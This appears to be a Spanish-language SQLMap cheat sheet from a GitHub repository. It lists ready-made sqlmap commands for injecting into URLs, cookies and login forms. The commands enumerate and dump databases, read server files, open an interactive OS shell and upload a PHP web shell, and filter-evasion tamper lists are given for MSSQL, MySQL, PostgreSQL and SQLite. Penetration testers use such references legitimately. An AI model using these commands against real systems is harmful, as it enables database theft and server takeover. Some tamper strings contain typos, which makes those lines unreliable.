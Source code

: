 # SQLMap Cheat Sheet

#### Uso simple
```
sqlmap -u "<URL>"
```

#### Conocer el usuario actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-user
```

#### Conocer la Base de Datos actual
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-db
```

#### Especificar el Sistema Gestor de Base de Datos
```
sqlmap -u "<URL>" --dbms=<Name-DBMS>
```

#### Listar los usuarios de la BD del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --users
```

#### Mostrar los privilegios del usuario de la BD
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --current-user --privileges
```

#### Listar las Bases de Datos del sitio
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs
```

#### Listar las tablas de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> --tables
```

#### Listar las columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --columns
```

#### Ver contenido de ciertas Columnas de una Tabla
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> -C <Column1,Column2> --dump
```

#### Ver todo el contenido de una Tabla de una Base de Datos
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" -D <Target-DB> -T <Target-Table> --dump
```

#### Obtener un Shell de OS interactivo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --os-shell
```

#### Listar BD, usando un parámetro de 'User-Agent' con el método GET
```
sqlmap -u '<URL>' -p User-Agent --method=GET --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --dbs
```

#### Listar BD usando el método POST
```
sqlmap -u '<URL>' -p User-Agent --method=POST --data 'db=mysql&name=taco&sort=id&order=asc' -p 'name,sort,order' --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --dbs
```

#### Colocar un parámetro y usar la técnica de UNION
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U
sqlmap -u "http://site.com/index.php?search=n" -p search --technique=U
```

#### Colocar un parámetro, usar la técnica de UNION, usando un verbose nivel 3 e ignorando los resultados almacenados del query
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --banner -v3 --fresh-queries
```

#### Colocar un parámetro, usar la técnica de UNION y enumerar los usuarios de la BD
```
sqlmap -u "<URL>" -p <PARAMETER> --technique=U --users
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --banner
```

#### Usar en formulario de Login, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -u "<URL>" --data='user=a&pass=a' -p user --technique=B --dbs
```

#### Enviar las peticiones a nuestro propio proxy
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --dbs
```

#### Enviar diferentes Token CSRF en cada petición
```
sqlmap -u "<URL>" -p <PARAMETER> --level=3 --risk=2 --no-cast -A "NONE" --csrf-url='<URL-REQUEST-POST>' --csrf-token="<NAME-TOKEN-CSRF>" --dbs
```

#### Leer un archivo desde un WebServer
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --file-read=/xampp/htdocs/index.php --batch
```

#### Cargar una shell en el servidor
```
sqlmap -u "<URL>" -p <PARAMETER> --threads=2 --level=3 --risk=2 --no-cast -A "NONE" --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```

#### Ignorar cualquier sesión previa (si se trata del mismo sitio) para que realice otro escaneo
```
sqlmap -u "<URL>" --cookie="<Cookie-Value>" --dbs --flush-session
```

#### Usar en formulario de Login cargado desde un archivo, para enviar datos en POST y usando la técnica BLIND, para obtener el nombre de la BD
```
sqlmap -r "<PATH_FILE>" --data='user=a&pass=a' -p user --technique=B --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --tamper=space2comment --cookie="name:value" --no-cast --dbs

sqlmap -r "<PATH_FILE>" -p user --user-agent=SQLMAP --random-agent --threads=10 --risk=2 --level=3 --tamper=space2comment,randomcase,between --no-cast --dbs

sqlmap -u "<URL>" -p <PARAMETER> --cookie="name:value" --threads=2 --no-cast -A "NONE" --proxy=http://localhost:8080 --tamper=space2comment,randomcase,between,charencode --not-string='A database error has been detected and fowarded to system admin.' --level=3 --risk=2 --dbms=mysql -v 3 --dbs
```

## Tampers

#### MSSQL
```
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,percentage,randomcase,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

#### MySQL
```
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

#### PostgreSQL
```
--tamper=xforwardedfor,space2comment,space2plus,space2randomblank,between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere
```

#### SQLite
```
--tamper=space2plus,unionalltounion.unmagicquotes,xforwardedfor,ifnull2ifisnull,randomcase,securesphere,space2comment,space2dashmmultiplespaces,nonrecursivereplacement 
```

## Techniques

- ``` B ```: Boolean-based blind
- ``` E ```: Error-based
- ``` U ```: Union query-based
- ``` S ```: Stacked queries
- ``` T ```: Time-based blind
- ``` Q ```: Inline queries

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)